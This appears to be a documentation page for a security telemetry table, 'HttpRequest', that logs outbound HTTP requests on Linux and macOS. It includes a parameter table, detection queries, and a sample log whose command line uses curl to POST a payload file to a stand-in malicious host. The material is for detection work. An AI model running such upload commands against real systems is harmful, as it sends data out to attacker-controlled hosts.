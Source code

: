 ### 1. Table Name
**HttpRequest**

---

### 2. Table Usage
This table records outbound HTTP requests initiated by processes on Linux and macOS systems. It provides details about the request, including the method, host, path, and originating process, which is useful for monitoring web activity, detecting C2 communications, or identifying data exfiltration.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| HttpPath | The path part of the HTTP request URL. | Linux, macOS |
| HttpHost | The host (domain name or IP address) to which the HTTP request was sent. | Linux, macOS |
| HttpMethod | The HTTP method used for the request (e.g., GET, POST, PUT). | Linux, macOS |
| RemoteAddressIP4 | The IPv4 address of the remote host to which the connection was made. | Linux, macOS |
| RemotePort | The remote port number used for the connection. | Linux, macOS |
| ImageFileName | The full path to an executable (PE) file. The context of this field provides more information as to its meaning. For ProcessRollup2 events, this is the full path to the main executable for the created process. | Linux, macOS |
| CommandLine | The command line used to create this process. May be empty in some circumstances. | Linux, macOS |

---

### 4. Sample Log Example

```json
{
  "HttpPath": "/api/v1/data",
  "HttpHost": "malicious.example.com",
  "HttpMethod": "POST",
  "RemoteAddressIP4": "192.0.2.100",
  "RemotePort": "443",
  "ImageFileName": "/usr/bin/curl",
  "CommandLine": "curl -X POST [https://malicious.example.com/api/v1/data](https://malicious.example.com/api/v1/data) -d @payload.json"
}
```
---

### 5. Example Queries
```xql
// Find all HTTP POST requests to a specific host
event_simpleName=HttpRequest HttpMethod=HTTP_METHOD_POST HttpHost="malicious.example.com"

// Identify HTTP requests originating from a suspicious image file
event_simpleName=HttpRequest ImageFileName="/usr/local/bin/backdoor_app"

// Find HTTP requests to a specific IP address on a given port
event_simpleName=HttpRequest RemoteAddressIP4="192.0.2.100" RemotePort="8080"

// Search for HTTP requests with specific keywords in the path or command line
event_simpleName=HttpRequest HttpPath="*exfil*" OR CommandLine="*upload_data*"

// Discover HTTP requests where HttpHost contains an unusual domain pattern
event_simpleName=HttpRequest HttpHost="*.xyz" OR HttpHost="*.top"
```